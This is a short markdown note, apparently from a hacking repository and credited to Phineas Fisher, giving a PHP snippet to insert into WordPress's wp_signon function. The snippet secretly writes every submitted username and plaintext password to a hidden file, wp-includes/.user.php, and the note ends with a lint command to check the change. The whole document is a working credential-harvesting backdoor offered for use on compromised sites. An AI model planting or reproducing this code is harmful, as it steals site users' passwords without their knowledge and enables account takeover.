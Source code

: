 # Log Wordpress logins
Credits: Phineas Fisher

in `wp-includes/users.php`:
in function `wp_signon`:

```
if ( ! empty($_POST['pwd']) ) {
    $credentials['user_password'] = $_POST['pwd'];
    file_put_contents("wp-includes/.user.php", "WP: " . $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```

--> Lint with `php -l user.php`
